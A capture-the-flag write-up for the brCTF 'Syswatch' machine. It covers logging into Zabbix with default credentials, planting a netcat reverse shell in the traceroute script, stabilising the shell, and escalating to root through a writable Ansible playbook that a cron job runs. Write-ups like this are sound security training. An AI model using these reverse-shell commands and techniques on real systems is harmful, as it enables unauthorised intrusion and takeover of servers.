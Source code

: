 ```yaml
---
title: Syswatch @ brCTF
author: McSam
date: 2024-12-26 11:33:00 +0800
categories: [Blogging, brCTF]
tags: [writeups]
math: true
mermaid: true
---
```


## Syswatch - brCTF

## Information Gathering And Enumeration
Let's us first start off by firing up our network mapper (nmap) to discover open ports and running services on our target. <br>
`nmap -sC -sV -oN syswatch.nmap 10.0.160.159`
```
Nmap scan report for 10.0.160.159
Host is up (0.27s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Cyborg Gaming
5000/tcp open  http    nginx 1.18.0
| http-robots.txt: 2 disallowed entries 
|_/ /zabbix/".
|_http-server-header: nginx/1.18.0
|_http-title: Zabbiz: Zabbix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov  3 10:20:45 2023 -- 1 IP address (1 host up) scanned in 24.85 seconds
```

From the above scan we see that there are two services running. I browsed through the service running on port `80` but found nothing interesting. Looking at port `5000` nmap tells us that the application `zabbix` is running on that port.<br>

Let's take a look at it in our browser. <br>
![zabbix homepage](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/zabbix-port-5000-browser.png)

We are greeted with a login page and as usual we test default credentials to see if they work. After some googling we come across the default credentials for `zabbix`. <br>
![zabbix default creds](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/default-logins-zabbix-google.png)


## Exploitation
We can now test these credentials to see if they work. We enter the credentials and just like that we're are logged in to `zabbix`.<br>

After spending sometime reading about zabbix RCE and browsing through the application i found a hosts tab which allows us to run some defaults scripts on hosts in `zabbix`.<br>
![checking zabbix hosts](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/checking-hosts-zabbix.png) <br>

And these are the various scripts we can run on the target. <br>
![zabbix host tab](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/zabbix-host-scripts.png)

After further probing i found out that these scripts that are run on the zabbix host can be edited (because we are the administrator). Let's first start off by viewing the content of these default scripts.<br>
![zabbix original scripts](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/see-scripts.png)

After clicking on the script name we are greeted with a form which allows us to change the content of the script. For this demonstration we will edit the `traceroute` script. <br>

This is the orginal content of the traceroute script.<br>
![zabbix original scripts](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/default-tracert-script.png)

We can edit this and place our malicious code here. <br>
`nc <ip-address> 8989 -e /bin/bash` <br>
After editing we can click on `update` to save those settings. <br>
![zabbix original scripts](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/edit-and-update-script.png)

We now head back to the `host` tab to run this script on the target server. We simply do that by clicking on the host and clicking on the script we want to run. Hold up!!! before you run the script make sure you have your netcat listening for incoming connections. <br>
![netcat listener](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/listening-on-nc.png)

Finally, we can run our malicious script(traceroute) to get a shell on our listener.<br>
![run mal script](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/run-modified-scripts.png)

Interesting.... we have a shell on the target. <br>
![got shell](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/connection-recieved-on-nc.png) <br>
NB: The script run time on `zabbix` times out after some minutes. If this happens just re-run the traceroute poisoned script.


## Post Exploitation
Anytime we get a shell through netcat we obtain a dumb shell. A dump shell has very little functionality and therefore we need a stable shell. Shell Stabilization prevents you from killing your reverse shell and adds proper shell functionalities.

#### Shell Stabilization
Execute on target
1. Step 1: `python3 -c "import pty;pty.spawn('/bin/bash')"` <br>
2. Step 2: `export TERM=xterm-color` <br>
3. Step 3: `CTRL+z`<br>
On host machine.
4. Step 4: `stty raw -echo; fg` <br>
5. Step 5: `reset` <br>


## Privilege Escalation
First thing i did was to run `sudo -l` but no luck. Next i decided to check if there's a process running with elevated privileges that can be abused. <br> 

We transfer our trusted friend `pspy64` onto the target. <br>

Brief explanation of `pspy64`: it is a program that allows us to snoop on linux processes to find sensitive information, processes running with elevated privileges amongst many others. We would have to run this on the target to get the required information. <br>

We start off by starting our python http server in the directory that houses the `pspy64` binary. <br>
![python http server](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/serving-pspy64.png)

Then we download onto our target machine. Preferably we'll first change directory to the `/tmp` since it has loose permissions (rwx) for all users. <br>
![download pspy64](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/cd-to-tmp-and-download-pspy64.png)

Next, we give `pspy64` execute permissions. <br>
![exec pspy64](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/execute-perms-on-pspy64.png)

Then we run it. <br>
![run pspy64](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/run_pspy64.png)

![cronjob ansible](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/running-cron-job.png)

From the output we find out that a cronjob is running an ansible-playbook. We can find this playbook here: `/opt/playbooks/playbook.yml`. Let's not rush into anything yet, we must first check our permissions on `/opt/playbooks/playbook.yml`. <br>
![check perms](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/write-perms-on-playbook.png)

Wow! we have write permissions. Let's run off to create a malicious playbook. <br>
![mal playbook](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/playbook-yaml-payload.png)

We then download the playbook onto out target. At this point i assume you already have your python http server setup. <br>
![download mal playbook](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/download-mal-playbook.png)

After this, we quickly setup our netcat listener. Note that, while crafting the malicious playbook we entered a command that will spawn a shell to connect to our machine on port `9090` using netcat. <br>

Now let's listen on port 9090. `rlwrap nc -lnvp 9090`
![other nc](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/other-nc-listening.png)

We can now go back to our target and over write the original `playbook.yml`.<br>
![overwrite playbook](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/over-write-original-playbook.png)

Now, we patiently wait for a connection on `9090`. :rofl: <br>
After a while the cron runs and we receive a connection.<br>
![conn recv](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/root-shell-cron-job-execs.png)

We are now root!! :smiley:<br>
![i am root](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/i-am-root.png)